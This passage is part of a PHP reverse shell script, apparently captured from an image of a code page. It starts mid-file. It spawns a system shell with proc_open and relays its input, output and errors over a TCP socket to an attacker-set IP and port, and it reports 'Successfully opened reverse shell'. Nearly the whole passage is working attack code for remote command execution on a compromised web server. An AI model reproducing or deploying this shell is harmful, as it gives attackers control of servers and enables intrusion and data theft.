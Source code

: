 ```<?php
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
```